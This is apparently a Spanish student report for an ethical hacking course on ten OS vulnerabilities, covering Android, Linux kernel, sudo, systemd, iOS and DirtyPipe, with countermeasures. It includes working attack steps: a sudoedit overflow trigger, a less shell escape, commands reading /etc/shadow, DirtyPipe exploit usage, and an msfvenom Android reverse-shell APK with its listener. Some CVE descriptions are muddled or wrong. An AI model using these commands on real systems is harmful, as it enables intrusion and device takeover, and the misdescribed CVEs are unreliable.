

# Proyecto 1 - Hack-Proof Inc.


## Hacking Ético - Ciberseguridad en las TI

## Grupo III

*Raúl Ladrón de Guevara*

*Juan Manuel Cumbrera López*

*Christian Romero Oliva*

# Índice

- [Introducción](#introducción)
- [Vulnerabilidades Investigadas](#vulnerabilidades-investigadas)
  - [1 CVE-2016-2414 - Minikin Android](#1-cve-2016-2414---minikin-android)
    - [Descripción](#descripción)
    - [Impacto](#impacto)
    - [Exploración y Explotación](#exploración-y-explotación)
    - [Contramedidas](#contramedidas)
  - [2 CVE-2022-2586 - Linux Kernel UAF](#2-cve-2022-2586---linux-kernel-uaf)
    - [Descripción](#descripcic3b3n-1)
    - [Impacto](#impacto-1)
    - [Exploración y Explotación](#exploracic3b3n-y-explotacic3b3n-1)
    - [Contramedidas](#contramedidas-1)
  - [3 CVE-2023-41995 - Desbordamiento de búfer en el kernel de Linux](#3-cve-2023-41995---desbordamiento-de-búfer-en-el-kernel-de-linux)
    - [Descripción](#descripcic3b3n-2)
    - [Impacto](#impacto-2)
    - [Exploración y Explotación](#exploracic3b3n-y-explotacic3b3n-2)
    - [Contramedidas](#contramedidas-2)
  - [4 CVE-2021-3156 - Sudo (Baron Samedit)](#4-cve-2021-3156---sudo-baron-samedit)
    - [Descripción](#descripcic3b3n-3)
    - [Impacto](#impacto-3)
    - [Exploración y Explotación](#exploracic3b3n-y-explotacic3b3n-3)
    - [Contramedidas](#contramedidas-3)
  - [5 CVE-2023-26604 - systemd 246](#5-cve-2023-26604---Systemd-246)
    - [Descripción](#descripcic3b3n-4)
    - [Impacto](#impacto-4)
    - [Exploración y Explotación](#exploracic3b3n-y-explotacic3b3n-4)
    - [Contramedidas](#contramedidas-4)
  - [6 CVE-2018-4087 - iOS Core Bluetooth](#6-cve-2018-4087---ios-core-bluetooth)
    - [Descripción](#descripcic3b3n-5)
    - [Impacto](#impacto-5)
    - [Exploración y Explotación](#exploracic3b3n-y-explotacic3b3n-5)
    - [Contramedidas](#contramedidas-5)
  - [7 CVE-2022-0847 - Dirty pipe](#7-cve-2022-0847---dirty-pipe)
    - [Descripción](#descripcic3b3n-6)
    - [Impacto](#impacto-6)
    - [Exploración y Explotación](#exploracic3b3n-y-explotacic3b3n-6)
    - [Contramedidas](#contramedidas-6)
  - [8 CVE-2020-7384 - MSFVENOM](#8-cve-2020-7384---msfvenom)
    - [Descripción](#descripcic3b3n-7)
    - [Impacto](#impacto-7)
    - [Exploración y Explotación](#exploracic3b3n-y-explotacic3b3n-7)
    - [Contramedidas](#contramedidas-7)
  - [9 CVE-2023-39191 - Kernel de Linux eBPF](#9-cve-2023-39191---kernel-de-linux-ebpf)
    - [Descripción](#descripcic3b3n-8)
    - [Impacto](#impacto-8)
    - [Exploración y Explotación](#exploracic3b3n-y-explotacic3b3n-8)
    - [Contramedidas](#contramedidas-8)
  - [10 CVE-2023-44466 - Desbordamiento de búfer](#10-cve-2023-44466---desbordamiento-de-búfer)
    - [Descripción](#descripcic3b3n-9)
    - [Impacto](#impacto-9)
    - [Exploración y Explotación](#exploracic3b3n-y-explotacic3b3n-9)
    - [Contramedidas](#contramedidas-9)
- [Conclusiones](#conclusiones)
- [Recomendaciones](#recomendaciones)
- [Referencias](#referencias)

## Introducción

Dentro del amplio campo de la ciberseguridad, la identificación y comprensión de vulnerabilidades son un elemento clave para el desarrollo profesional. En operaciones de Red Team o Pentesting, las vulnerabilidades se convierten en un elemento crítico que los expertos en ciberseguridad buscan localizar, abordar y, en algunos casos, aprovechar.

Este proyecto se enfoca en la investigación y análisis de diversas vulnerabilidades, en relación a sistemas operativos tales como Android, Linux o iOS. Estos sistemas han sido elegidos como tema de estudio para este informe debido a la gran relevancia que estos tienen en el mundo actual.

En este documento se ofrece una clasificación de las mismas, donde hemos tenido en cuenta su puntuación base de CVSS (*Common Vulnerability Score System*) además de su puntuación de explotabilidad e impacto. 

Lo hemos divido en diferentes secciones que ofrecen una información amigable y comprensible de un contenido altamente técnico, de modo que incluso aquellas personas no familiarizadas con aspectos técnicos de este ámbito puedan comprenderlo con relativa facilidad.

## Vulnerabilidades Investigadas

### 1 CVE-2016-2414 - Minikin Android
#### Descripción

Esta es una vulnerabilidad encontrada en *Minikin* una implementación de la interfaz de renderizado de fuentes en Android. Es un componente clave de android al ser una parte integral del sistema de gráficos, al estar encargado de renderizar las fuentes y el manejo de varios aspectos referidos al texto.

La vulnerabilidad existe debido a que *Minikin* contiene un error a la hora de parsear los archivos .TTF (archivos de fuentes de texto) correctamente. Esto podría permitir a un atacante establecer un bloqueo completo de un dispositivo Android mediante la carga de un archivo .TTF debidamente modificado para desencadenar un error que termina provocando continuos reinicios permanentes en el dispositivo y corrupción de memoria, por lo tanto un ataque de denegación de servicio (DoS).

#### Impacto

- Base score: 6.2 Medio
- Impact score: 3.6
- Exploitability score: 2.5

La explotación de esta vulnerabilidad puede conllevar a una pérdida de la integridad y denegación completa de la disponibilidad de los datos de un dispositivo que tenga instalado Android 5.0.x anteriores a la 5.0.2, 5.1.x anteriores a la 5.1.1 y 6.x anteriores al 1 de abril de 2016.

#### Exploración y Explotación

Esta vulnerabilidad podría explotarse mediante la instalación de un archivo .TTF debidamente preparado para la ocasión, por ejemplo mediante manipulación de bytes, una técnica en la cual se modifican los valores binarios de un archivo para que contenga la información necesaria para poder desencadenar el efecto malicioso en un objetivo aprovechando la vulnerabilidad.

#### Contramedidas

Para evitar vernos afectados por esta vulnerabilidad podríamos seguir las siguientes recomendaciones:

- **Utilizar siempre las versiones más actualizadas de los sistemas operativos**, en este caso Android, que por lo general contienen actualizaciones que arreglan este tipo de problemas. (En este caso Google corrigió la vulnerabilidad en las actualizaciones de seguridad de Abril de 2016)
- **Evitar descargar o instalar fuentes de terceros o de origen desconocido** para modificar nuestro sistema.
- **Evitar abrir archivos adjuntos de correos electrónicos** cuyo remitente sea **desconocido o sospechoso**.

#### Fuente
https://www.fortinet.com/blog/threat-research/analysis-of-cve-2016-2414-out-of-bound-write-denial-of-service-vulnerability-in-android-minikin-library-1
<br>

###  2 CVE-2022-2586 - Linux Kernel UAF

#### Descripción

Esta vulnerabilidad es una **vulnerabilidad de uso después de la liberación (UAF)** que se encuentra en el kernel de Linux.

Esta vulnerabilidad permite a un atacante local, con privilegios, causar un problema de UAF en el momento de la eliminación de una tabla, lo que podría conducir a una escalada de privilegios local.

La vulnerabilidad se encuentra en el código del kernel de Linux que maneja las tablas de nf_tables. Estas tablas se utilizan para implementar reglas de cortafuegos y otros filtros de paquetes. El código vulnerable libera incorrectamente un objeto de tabla después de haberlo utilizado, lo que permite al atacante acceder a la memoria liberada y modificarla.

#### Impacto

- Base score: 6.7 Medio
- Impact score: 5.9
- Exploitability score: 0.8

La explotación de esta vulnerabilidad podría permitir al atacante ejecutar código arbitrario con privilegios del kernel. Esto podría permitir al atacante tomar el control total del sistema. 

Por lo que la confidencialidad, la integridad y la disponibilidad de los datos se ven afectados en su totalidad.

#### Exploración y Explotación

Hablamos de vulnerabilidad UAF (*Use-After-Free*) cuando en uno de los tantos procesos de manejo de memoria que ocurren en un sistema, un espacio concreto de memoria se libera por error. Mediante un exploit podríamos acceder a ese espacio de memoria que se ha liberado en un proceso concreto, en este caso la administración de unas tablas llamadas "*nf_tables*" del kernel de Linux que se utilizan para implementar reglas de cortafuegos y otros filtros de paquetes.

En ese espacio de memoria el atacante mediante su exploit podría escribir directamente a nivel de kernel, por lo que podría establecerse con privilegios de administrador para poder tomar total control del sistema.
#### Contramedidas

Para protegerse de esta vulnerabilidad, los usuarios de sistemas Linux deben:

* **Actualizar a la versión 5.18.11 o posterior del kernel de Linux.** Esta versión corrige la vulnerabilidad.
* **Evitar ejecutar código arbitrario de fuentes desconocidas.** Esto podría ayudar a prevenir la explotación de la vulnerabilidad por parte de un atacante.
<br>

### 3 CVE-2023-41995 - Desbordamiento de búfer en el kernel de Linux

#### Descripción

La vulnerabilidad CVE-2023-41995 es una vulnerabilidad de uso después de la liberación en el kernel de Linux[3] que afecta a las versiones de iOS y iPadOS anteriores a la 17 y a las versiones de macOS anteriores a la 14 y se encuentra en el subsistema de mensajería del kernel, el cual se utiliza para procesar los mensajes enviados entre los procesos. 

Esta vulnerabilidad se produce porque el kernel de Linux no libera correctamente la memoria después de que se haya utilizado, lo cual implica que un posible atacante pueda proporcionar un mensaje malicioso que el kernel procesará incorrectamente, provocando un desbordamiento de búfer. Este desbordamiento de búfer podría permitir al atacante ejecutar código arbitrario en el contexto del kernel.

El desbordamiento de búfer podría permitir al atacante ejecutar código arbitrario en el contexto del kernel. Esto significa que el atacante podría tener acceso a todos los recursos del sistema, incluyendo los datos confidenciales, los procesos y los servicios.

#### Impacto
- Base score: 7.8 Alto
- Impact score: 5.9
- Exploitability score: 1.8

La vulnerabilidad discutida tiene un impacto grave en los sistemas vulnerables. Como las anteriores, esta permite a un atacante que pueda explotarla tomar el control total del sistema, acceder a datos confidenciales o causar daños.

Además de esto último, esta vulnerabilidad tendría las consecuencias siguientes, teniendo en cuenta los términos de confidencialidad, integridad y disponibilidad:

- **Confidencialidad:** El atacante podría acceder a datos confidenciales, como contraseñas, información financiera o datos personales.
- **Integridad:** El atacante podría modificar o destruir datos.
- **Disponibilidad:** El atacante podría interrumpir los servicios o sistemas.

#### Exploración y Explotación

Para explotar y hacer uso de esta vulnerabilidad, un atacante debe enviar un mensaje malicioso al subsistema de mensajería del kernel de Linux. Dicho mensaje debe ser lo suficientemente grande como para provocar un desbordamiento de búfer.

Existen varias formas en las que el hipotético atacante podría enviar el susodicho mensaje malicioso, las cuales incluyen:

- Ataque de inyección de código en una aplicación que use el subsistema de mensajería del kernel de Linux.
- Ataque de envenenamiento de caché DNS[4] en un servidor que utiliza el subsistema de mensajería del kernel de Linux.
- Ataque de explotación de desbordamiento de búfer en un dispositivo que utiliza el subsistema de mensajería del kernel de Linux.

#### Contramedidas

A fin de reducir el riesgo de explotación de esta vulnerabilidad, exponemos algunas maneras de mantenerse a salvo:

- **Actualizar el kernel a la última versión.** Las últimas versiones del kernel de Linux corrigen la vulnerabilidad.
- **Instalar un firewall.** Esto permitiría bloquear el tráfico entrante no autorizado.
- **Mantener los sistemas actualizados con las últimas actualizaciones de seguridad.**
- **Mantener actualizado el antivirus.**
<br>

### 4 CVE-2021-3156 - Sudo (Baron Samedit)

#### Descripción

Las versiones del comando "sudo" en las versiones v1.8.2 - v1.9.5p1 contienen un error que puede provocar un desbordamiento de búfer, permitiendo que cualquier usuario sin privilegios obtenga privilegios de root en un host vulnerable utilizando una configuración sudo predeterminada. El problema ocurre al ejecutar el comando "sudoedit -s" con un argumento de línea de comandos que termina con un único carácter de barra invertida.

Ejemplo: `sudoedit -s '\' perl -e 'print "A" x 65536'`

Esta vulnerabilidad afecta a varios sistemas operativos como Ubuntu 20.04 (Sudo 1.8.31), Debian 10 (Sudo 1.8.27) y Fedora 33 (Sudo 1.9.2) y demás sistemas operativos que usen estas versiones de sudo.

#### Impacto

- Base score: 7.8 Alto
- Impact score: 5.9
- Exploitability score: 1.8

El impacto de la vulnerabilidad es crítico ya que afecta directamente la confidencialidad, integridad y disponibilidad de los datos al obtener privilegios de root:

- Confidencialidad: El atacante podría acceder a datos confidenciales.
- Integridad: El atacante podría modificar o eliminar archivos.
- Disponibilidad: El atacante podría cambiar configuraciones o permisos.

#### Exploración y Explotación

Podríamos detectar la vulnerabilidad viendo la versión de sudo que tenemos instalada usando el comando: "apt list sudo"

También la podríamos detectar y explotar a través de herramientas que escanean vulnerabilidades, como Metasploit. También existen scripts en GitHub, Openwall o Packet Storm Security que permiten automatizar la explotación.

[Script en Packet Storm Security](https://packetstormsecurity.com/files/161230/Sudo-Buffer-Overflow-Privilege-Escalation.html)

[Script en Openwall](https://www.openwall.com/lists/oss-security/2021/01/26/3)

#### Contramedidas

 La mayoría de las distribuciones ya han lanzado actualizaciones para corregir esto, por lo que la actualización del sistema o del paquete de sudo solucionará esta vulnerabilidad.
<br>

### 5 CVE-2023-26604 - Systemd 246

#### Descripción

Systemd anterior a la versión 247 no bloquea adecuadamente la escalada de privilegios locales para algunas configuraciones de Sudo, por ejemplo, el archivo sudoers que necesita de autenticación se podría ejecutar mediante el comando "systemctl status". Específicamente, systemd no establece LESSSECURE en 1 y, por lo tanto, se pueden iniciar otros programas desde el programa less (Es un visualizador de archivos de texto). Esto presenta un riesgo de seguridad sustancial cuando se ejecuta systemctl desde Sudo, porque less se ejecuta como root cuando el tamaño del terminal es demasiado pequeño para mostrar la salida completa de systemctl.

Systemd es un conjunto de procesos de administración de sistema, bibliotecas y herramientas que interactuan con el núcleo del Sistema operativo.

#### Impacto

- Base score: 7.8 Alto
- Impact score: 5.9
- Exploitability score: 1.8

- **Disponibilidad:** Un atacante podría utilizar esta vulnerabilidad para detener o interrumpir los servicios críticos del sistema. Por ejemplo, podría ejecutar el comando "systemctl stop nginx" para detener el servidor web nginx.
- **Integridad:** Un atacante podría utilizar esta vulnerabilidad para modificar o eliminar archivos críticos del sistema. Por ejemplo, para ejecutar el comando "cp /etc/passwd /tmp/passwd" y copiar el archivo de contraseñas.
- **Confidencialidad:** Un atacante podría utilizar esta vulnerabilidad para recopilar información confidencial del sistema. Por ejemplo, para ejecutar el comando "cat /etc/shadow" y leer las contraseñas.

#### Exploración y Explotación

Para explotar esta vulnerabilidad no hace falta nada en especial, simplemente ejecutar comandos de systemd como por ejemplo systemctl o journalctl.

Aquí podemos ver un ejemplo con el que se accede fácilmente a root :
Primero se lista los permisos de sudo con "sudo -l" y nos muestra que binarios tienen permisos de root (En este caso cron.service), luego simplemente ejecuta el comando como sudo ya que tiene privilegios para hacerlo y por último, invoca una shell con el comando !sh (!sh -> lo que hace es llamar a la última vez que se ejecuto el comando sh, con el comando bash podríamos hacer lo mismo (!/bin/bash))  y como vemos ya puede ejecutar comandos como usuario root:



#### Contramedidas

Una solución sería modificar la variable LESSSECURE en el archivo "/etc/profile.d/lesssecure.sh" que debemos crear si no está creado con las siguientes variables:

```bash
LESSSECURE=1
readonly LESSSECURE
export LESSSECURE //hace que la variable esté disponible en procesos de segundo plano
```

Cuando la variable de entorno LESSSECURE se establece en 1, 
se ejecuta en modo "seguro". Esto significa que estas funciones están deshabilitadas:
- ! el comando de shell
- | el comando de tubería (pipe)
- :e el comando de examen.
- v el comando de edición
- s -o archivos de registro
- -k uso de archivos lesskey
- -t uso de archivos de etiquetas
- Metacaracteres en nombres de archivos, como *
- Finalización del nombre de archivo (TAB, ^L)

También se puede compilar Less para que esté permanentemente en modo "seguro". Para ello tenemos que modificar el archivo sudoers y añadir la variable: 
env_keep=LESSSECURE
<br>

### 6 CVE-2018-4087 - iOS Core Bluetooth

#### Descripción

Esta vulnerabilidad consiste en una escalada de privilegios a través de una aplicación maliciosa instalada en iOS. 

Para comprender de que trata esta vulnerabilidad, debemos ser conscientes de que en muchos sistemas operativos, entre ellos iOS y Android, las aplicaciones se ejecutan en lo que llamamos un **sandbox**: Digamos que es un *espacio virtual* donde la aplicacion se ejecuta y solo tiene acceso a aquellos recursos que le hagan falta, no a todos los recursos del dispositivo, para evitar problemas de seguridad. 

Esta vulnerabilidad se basa en un componente de iOS llamado "Core Bluetooth" que sirve para efectivamente usar el bluetooth del dispositivo. Concretamente dentro de Core Bluetooth existe un proceso llamado **bluetoothd** que permite a la aplicacion en si comunicarse con otros procesos. Cuando una aplicación legítima está intentando establecer comunicación con el proceso **bluetoothd**, a nivel de código se crea un *session token* que va a utilizar la aplicación para identificarse y mantener una conexión. 

La clave de esta vulnerabilidad es que ese *session token* que se crea cuando una aplicación se une al proceso **bluetoothd** básicamente es el puerto que se asigna para la conexión, entonces solo hay que descubrir que puerto te han dado, y es relativamente fácil sacarlo por fuerza bruta porque se sabe que el puerto que te dan es de tipo "**mach_port_t**". 

Una aplicación legítima no tiene por qué conocer el *session token*, simplemente lo utiliza y deja que el sistema operativo lo gestione. Sin embargo a través de esta vulnerabilidad podemos manipularlo y utilizarlo para crear por ejemplo nuevas funciones que serían, *a los ojos de bluetoothd*, legítimas.

Entonces, teniendo el *session token* se puede hacer *hijack* de una sesión concreta entre una aplicación y el proceso **bluetoothd**, por lo que pueden interceptarse datos sensibles, cortar la comunicación, o intentar inyectar código malicioso en esa comunicación.


#### Impacto

- Base score: 7.8 Alto
- Impact score: 5.9
- Exploitability score: 1.8

Esta vulnerabilidad puede llegar a permitir ejecutar código arbitrario en los dispositivos, lo que podría conllevar a un borrado de datos, al bloqueo del dispositivo, a la filtración y robo de datos personales. Podría usarse también para realizar un espionaje tomando datos de las conexiones secuestradas. 

Luego podemos decir que podría llegar a afectar de manera crítica a los niveles de confidencialidad, integridad y disponibilidad de los datos.


#### Exploración y Explotación

Esta vulnerabilidad se podría explotar mediante la creación de una aplicación maliciosa que solicitara un puerto *mach* para comunicarse con el exterior de su sandbox. 

Entonces al solicitarlo, la aplicación podría intentar sacar el *session token* por fuerza bruta debido a que conocemos que se genera a partir del nombre del puerto. 

Una vez descifre el token, el atacante podrá interferir en la comunicación entre el servicio **bluetoothd** y sus clientes, por lo que podría por ejemplo inyectar código malicioso en alguna de estas comunicaciones.


#### Contramedidas

En cuanto al usuario la única contramedida que podría adoptar sería mantener su sistema actualizado a las versiones más recientes donde estos problemas han sido corregidos. A nivel de corregir la vulnerabilidad, Apple la corrigió haciendo que el token de sesión generado fuera aleatorio en lugar de usar el mismo puerto de la conexión. 

#### Fuente

https://www.zimperium.com/blog/cve-2018-4087-poc-escaping-sandbox-misleading-bluetoothd/

<br>

### 7 CVE-2022-0847 - Dirty pipe
#### Descripción: 
Es una vulnerabilidad en el kernel de Linux desde la versión 5.8 en adelante que permite sobrescribir datos en archivos de solo lectura. Esto conduce a una escalada de privilegios porque los procesos sin privilegios pueden inyectar código en los procesos raíz.

La vulnerabilidad se encuentra exactamente en la función "copy_page_to_iter_pipe()" del kernel de Linux. (la función se utiliza para copiar datos de una página de memoria al búfer del pipe o tubería "|" ). 
El búfer del pipe se utiliza para almacenar los datos que se están transmitiendo a través del pipe.

El fallo se produce porque la función no inicializa correctamente la variable donde se almacena la flag del pipe, que es donde se almacenan los permisos y estado del pipe, entonces como no puede leer los permisos y el estado, un atacante podría utilizar la vulnerabilidad para escribir datos en el búfer del pipe, por ejemplo, contraseñas, malware, etc...

Una vez que el atacante ha escrito datos en el búfer del pipe, podría enviar los datos a un archivo de solo lectura, como "/etc/passwd". 

#### Impacto: 

- Base score: 7.8 Alto
- Impact score: 5.9
- Exploitability score: 1.8

Esta vulnerabilidad tiene graves impactos sobre la disponibilidad, integridad y confidencialidad de los datos:

- Disponibilidad: se podría utilizar para interrumpir servicios críticos, instalar malware o tomar el control del sistema.
- Integridad: Se podría utilizar para modificar archivos de solo lectura.
- Confidencialidad: Se podría utilizar para recopilar información confidencial como contraseñas, archivos personales, etc...


#### Exploración y explotación:

La vulnerabilidad se podría detectar con herramientas como Nmap, Metasploit, Burp Suite, OpenVAS, etc...

También existe la posibilidad de detectar esta vulnerabilidad con un script que se encuentra alojado en GitHub llamado "CVE-2022-0847-dirty-pipe-checker" (https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker#cve-2022-0847-dirty-pipe-checker) que se utiliza de la siguiente manera:

- Ejecutando: ./dpipe.sh (Es un script simple que lo que hace es hacer comprobaciones con las versiones de kernel y comprobar si esta es vulnerable)
- Una vez se ejecuta nos mostraría la versión del kernel en la que estamos y si es vulnerable o no.

Para realizar la explotación podríamos hacerlo mediante la ejecución de scripts como:
https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
Este repositorio tiene dos exploits que con cualquiera de ellos podríamos explotar esta vulnerabilidad:
- El primero lo que hace es sobrescribir datos sobre el fichero /etc/passwd.
- El segundo lo que hace es elevar los privilegios mediante un binario que tenga permisos SUID. (Este permiso se utiliza para permitir a los usuarios del sistema ejecutar binarios con privilegios elevados temporalmente para realizar una tarea específica.).
Ej: 
- Detectamos los binarios que tienen permisos SUID con el comando:
	- `find / -perm -4000 2>/dev/null`
- Y ejecutamos el exploit2 indicandole el directorio de ese binario:
	- `./exploit-2 /usr/bin/sudo`

#### Contramedidas: 

- Deshabilitar el acceso remoto al kernel. Esto se puede hacer editando el archivo /etc/sysctl.conf y comentando la siguiente línea:
-kernel.unprivileged_userns_clone=1
- Utilizar un firewall para bloquear el acceso no autorizado a ciertos servicios como por ejemplo ssh (puerto 22)
- Implementar un sistema de detección de intrusiones (IDS) para que nos ayude a detectar el ataque.
- La vulnerabilidad se solucionó en Linux 5.16.11, 5.15.25 y 5.10.102 por lo que usar una de estas versiones nos solucionaría el problema.
<br>

### 8 CVE-2020-7384 - MSFVENOM
## Descripción
El framework msfvenom de Metaexploit permite a un usuario malintencionado crear y publicar APK's que permiten la ejecución de comandos controlados por el atacante en el dispositivo android donde se ha instalado.

## Impacto

- Base score: 7.8 Alto
- Impact score: 5.9
- Exploitability score: 1.8

Un atacante que pueda explotar esta vulnerabilidad podría tomar el control completo de un dispositivo android. Esto podría permitirles robar datos, instalar malware o incluso tomar el control físico del dispositivo, por ejemplo, para hacer fotos, mandar sms's, geocalizar a la persona, etc...

- Disponibilidad: El atacante podría controlar el dispositivo por lo que podría borrar datos, bloquear el acceso, etc...
- Integridad: El atacante podría modificar o eliminar datos lo que podria dañar el dispositivo o la información que contiene.
- Confidencialidad: El atacante podría robar datos como contraseñas, fotos, datos bancarios, etc... lo que comprometeria la privacidad y los datos podrian ser utilizados para cometer fraude o robar su identidad.

## Exploración y explotación

Para explotar esta vulnerabilidad lo unico que necesitariamos es una máquina con kali linux para crear el apk que contendrá una reverse shell hacia nuestra máquina, de esta manera cuando se instale en un dispositivo, tendremos control total sobre ese dispositivo.

Los pasos para realizar la explotación son los siguientes:

```bash
# Creamos la app maliciosa indicandole nuestra Ip y el puerto 443 que es por donde estaremos a la escucha:
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 -o app.apk
# Abrimos la consola:
msfconsole
# Usamos el multihandler:
use /multi/handler
# Modificamos el payload con nuestra dirección y puerto que hemos especificado en el apk:
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.120
set LPORT 443
# Iniciamos el payload:
run
# Ahora estaremos a la escucha para cuando un atacante acceda a la app infectada, podamos tener acceso total a su dispositivo.
```

## Contramedidas

-No descargar nunca apk's desconocidas que suelen ofrecernos servicios de pago de forma gratuita ya que estas suelen tener malware.
-Actualizar siempre el móvil a la última versión disponible.
-Tener instalado siempre un antivirus/antimalware en el dispositivo.

<br>

### 9 CVE-2023-39191 - Kernel de Linux eBPF

#### Descripción

La vulnerabilidad CVE-2023-39191 es una vulnerabilidad de validación de entrada en el subsistema _eBPF_[1] del kernel de Linux. Estos programas se pueden utilizar para una variedad de propósitos, como la supervisión del rendimiento, el filtrado de tráfico y la creación de reglas de firewall.

Esta vulnerabilidad se produce debido a una falta de validación de entrada en el subsistema eBPF. Esto significa que un atacante puede proporcionar datos maliciosos a un programa eBPF que el kernel ejecutará sin verificar.

#### Impacto

- Base score: 8.2 Alto
- Impact score: 6
- Exploitability score: 1.5

Esta vulnerabilidad tiene un impacto grave en los sistemas vulnerables, dado que un atacante que pueda explotarla puede ejecutar código en el contexto del kernel. Esto le permitiría al atacante tomar el control total del sistema, acceder a datos confidenciales o causar múltiples daños.

El impacto potencial de la vulnerabilidad en términos de confidencialidad, integridad y disponibilidad de los datos o sistemas afectados es el siguiente:

- **Confidencialidad:** El atacante podría acceder a datos confidenciales, como contraseñas, información financiera o datos personales.
- **Integridad:** El atacante podría modificar o destruir datos.
- **Disponibilidad:** El atacante podría interrumpir los servicios o sistemas.

#### Exploración y Explotación

Para explotar esta vulnerabilidad, un atacante debe tener privilegios _CAP_BPF_[2]. Estos privilegios se pueden obtener mediante una variedad de métodos, como explotar otra vulnerabilidad o obtener acceso a un sistema comprometido.

Una vez que el atacante tenga dichos privilegios, podrá proporcionar datos maliciosos a un programa eBPF, los cuales serán ejecutados por el kernel. Este código malicioso se podrá utilizar para controlar el sistema, acceder a datos confidenciales o causar daños.

#### Contramedidas

Para mitigar el riesgo de explotación de esta vulnerabilidad, los usuarios deben tomar las siguientes medidas:

- **Actualizar los sistemas a la última versión del kernel de Linux.** Esta versión corrige la vulnerabilidad CVE-2023-39191.
- **Limitar el acceso a los privilegios CAP_BPF.** Solo los usuarios autorizados deben tener estos privilegios.
- **Implementar controles de acceso para proteger los programas eBPF.** Estos controles pueden ayudar a evitar que los atacantes proporcionen datos maliciosos a los programas eBPF.
- **Monitorear los sistemas en busca de signos de explotación de esta vulnerabilidad.** Los administradores de sistemas deben estar atentos a los signos de actividad maliciosa, como intentos de ejecutar código arbitrario en el contexto del kernel.
<br>

### 10 CVE-2023-44466 - Desbordamiento de búfer

#### Descripción

La vulnerabilidad CVE-2023-44466 es una vulnerabilidad de desbordamiento de búfer en el módulo de mensajería del kernel de Linux. Esto tiene su origen en el sistema de ficheros _Ceph_, ya que el módulo de mensajería es utilizado por Ceph para recibir paquetes TCP de una dirección IP. Antes de que se complete cualquier autorización, cualquier dispositivo con esa dirección IP puede enviar un paquete que produzca el susodicho desbordamiento de búfer en el kernel. Este desbordamiento de búfer puede permitir al atacante ejecutar código arbitrario en el contexto del kernel, así como una posible denegación de servicio.

Esta se produce debido a una falta de validación de entrada en el código que se utiliza para procesar los mensajes enviados al subsistema de mensajería del kernel de Linux. Esto significa que un atacante puede proporcionar un mensaje malicioso que el kernel procesará incorrectamente, provocando un desbordamiento de búfer.

#### Impacto

- Base score: 8.8 Alto
- Impact score: 5.9
- Exploitability score: 2.8

Esta vulnerabilidad tiene un impacto moderado en los sistemas vulnerables, ya que un atacante pueda identificar la IP de un dispositivo que lee el sistema de archivos Ceph puede provocar una denegación de servicio y la ejecución remota de código en el kernel, lo que podría llevar a la toma de control sobre el sistema, el acceso a datos confidenciales o la posibilidad de causar daños.

La vulnerabilidad en cuestión puede tener una serie de posibles consecuencias puestas en términos de confidencialidad, integridad y disponibilidad:

- **Confidencialidad:** El atacante podría acceder a datos confidenciales, como contraseñas, información financiera o datos personales.
- **Integridad:** El atacante podría modificar o destruir datos.
- **Disponibilidad:** El atacante podría interrumpir los servicios o sistemas (_DoS_).

Sin embargo, la vulnerabilidad podría no tener ningún impacto si el atacante no puede ejecutar código arbitrario en el contexto del kernel. En este caso, el atacante solo podría provocar una denegación de servicio.

#### Exploración y Explotación

Para explotar esta vulnerabilidad, un atacante debe tener acceso al sistema vulnerable. Una vez que este haya conseguido acceso al sistema, podrá enviar un mensaje malicioso al subsistema de mensajería del kernel de Linux, el cual lo procesará de forma incorrecta, produciendo así un desbordamiento del búfer. Éste podría permitir al atacante ejecutar código arbitrario en el contexto del kernel.

#### Contramedidas

A continuación resumimos algunas medidas que los usuarios deben tomar, con el objeto de evitar o limitar el riesgo de explotación de esta vulnerabilidad:

- **Actualizar los sistemas a la última versión del kernel de Linux.** Esta versión corrige la vulnerabilidad CVE-2023-44466.
- **Limitar el acceso al subsistema de mensajería del kernel de Linux.** Solo los usuarios autorizados deben tener acceso a este subsistema.
- **Monitorear los sistemas en busca de signos de explotación de esta vulnerabilidad.** Los administradores de sistemas deben estar atentos a los signos de actividad maliciosa, como intentos de enviar mensajes maliciosos al subsistema de mensajería del kernel de Linux.
<br>


## Conclusiones

Durante el proceso de este proyecto nos hemos adentrado en conceptos y definiciones claves en la ciberseguridad, como exploit, vulnerabilidad, UAF o EBPF. Al haber elegido los sistemas operativos como nuestro tema hemos tenido que indagar sobre componentes básicos de computación, e intentar comprender superficialmente al menos su funcionamiento para entender el motivo de la vulnerabilidad.

Hemos podido comprobar que para analizar y comprender en profundidad una vulnerabilidad de seguridad informática se necesitan conocimientos muy extensos sobre el funcionamiento base de software esencial, ya que muchas de estas vulnerabilidades se basan en errores lógicos producidos a bajo nivel de computación, provocados por errores humanos a la hora de codificar. 

Se ha podido comprobar también que tener nuestros sistemas operativos actualizados nos previene frente a problemas de seguridad, ya que muchas de estas vulnerabilidades fueron instantáneamente arregladas nada más publicarse. 

También hemos conocido mucho acerca de las distintas clasificaciones y recursos donde podemos encontrar clasificadas y organizadas de manera excelente todas estas vulnerabilidades, como por ejemplo [NIST](https://nvd.nist.gov/vuln) o [ExploitDB](https://www.exploit-db.com/). Gracias al estándar CVE, la clasificación y publicación de vulnerabilidades se simplifica y facilita a los investigadores de ciberseguridad para que la comunidad siga avanzando y mejorando con el tiempo.

